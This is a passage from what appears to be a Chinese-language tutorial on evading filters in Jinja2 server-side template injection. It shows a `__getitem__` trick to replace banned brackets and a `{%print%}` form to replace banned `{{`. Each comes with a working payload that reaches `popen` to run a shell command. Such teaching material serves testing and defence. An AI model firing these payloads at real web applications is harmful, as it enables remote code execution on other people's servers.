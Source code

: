 ## [绕过\[\]](#toc__6)

经常有中括号被 ban 的情况出现，这个时候可以使用`__getitem__` 魔术方法，它的作用简单说就是可以把中括号转换为括号的形式，举个例子

```bash
__bases__[0]=__bases__.__getitem__(0)
```

[![在这里插入图片描述](assets/1698900310-b5e0d8665ca6d22f5c44820161c79f96.png)](https://storage.tttang.com/media/attachment/2022/08/14/299a9c8f-5dee-4566-8e66-88fda0c87c3b.png)

## [绕过{{](#toc__7)

有时候为了防止 SSTI，可能程序员会 ban 掉{{，这个时候我们可以利用 jinja2 的语法，用{%来进行 RCE，举个例子  
我们平常使用的 payload

```bash
{{"".__class__.__bases__[0]. __subclasses__()[138].__init__.__globals__['popen']('dir').read()}}
```

修改后的 payload

```bash
{%print("".__class__.__bases__[0]. __subclasses__()[138].__init__.__globals__['popen']('dir').read())%}
```

[![在这里插入图片描述](assets/1698900310-b8ac7ba1201019c10378ecfed299d3d3.png)](https://storage.tttang.com/media/attachment/2022/08/14/0353d474-c459-40f1-9d62-b93562966072.png)  
也可以借助 for 循环和 if 语句来执行命令
